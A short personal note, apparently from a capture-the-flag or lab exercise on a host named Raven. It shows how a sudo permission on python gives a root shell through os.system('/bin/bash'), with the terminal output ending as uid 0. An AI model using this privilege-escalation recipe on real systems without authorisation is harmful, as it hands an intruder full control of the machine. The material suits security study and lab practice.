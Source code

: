 ```yaml
---
title: Getting Root Access with Python
updated: 2022-11-17T09:28:52.0000000+04:00
created: 2022-11-17T09:27:45.0000000+04:00
---
```


Getting Root Access with Python
Thursday, November 17, 2022
9:27 AM
**<u>inside the terminal just type:</u>**

\> sudo /usr/bin/python

\> import os

\> os.system('/bin/bash')

\$ **sudo /usr/bin/python**
Python 2.7.9 (default, Jun 29 2016, 13:08:31)
\[GCC 4.9.2\] on linux2
Type "help", "copyright", "credits" or "license" for more information.
\>\>\> **import os**

\>\>\> **os.system('/bin/bash')**

root@Raven:/tmp# id

uid=0(root) gid=0(root) groups=0(root)
root@Raven:/tmp#

<u>You now have root access into Raven.</u>
